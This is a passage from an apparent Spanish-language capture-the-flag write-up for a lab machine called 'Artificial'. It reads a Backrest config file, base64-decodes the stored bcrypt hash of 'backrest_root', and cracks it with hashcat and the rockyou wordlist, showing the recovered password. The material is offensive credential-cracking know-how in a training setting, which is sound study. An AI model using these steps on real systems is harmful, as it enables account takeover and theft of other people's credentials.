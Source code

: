 ```bash
  cat .config/backrest/config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```
* El password parece ser un base64 lo pasamos por [boxentriq](https://www.boxentriq.com/code-breaking/base64-decoder)

Obtenemos un hash: `$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO` 

* Lo identificamos con [hashes](https://hashes.com/en/tools/hash_identifier)

* Buscamos el modo con hashcat:

```bash
  hashcat -h | grep -i "bcrypt"                                                                                      
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

* Guardamos el hash

```bash
  echo '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' > backrest_root.hash

```

* Crackeamos

```bash
  hashcat -m 3200 backrest_root.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP5...Zz/0QO
Time.Started.....: Tue Sep  9 23:17:52 2025 (3 mins, 0 secs)
Time.Estimated...: Tue Sep  9 23:20:52 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       30 H/s (7.96ms) @ Accel:8 Loops:4 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5376/14344385 (0.04%)
Rejected.........: 0/5376 (0.00%)
Restore.Point....: 5312/14344385 (0.04%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
Candidate.Engine.: Device Generator
Candidates.#1....: baby06 -> ginuwine
Hardware.Mon.#1..: Temp: 69c Util: 91%
```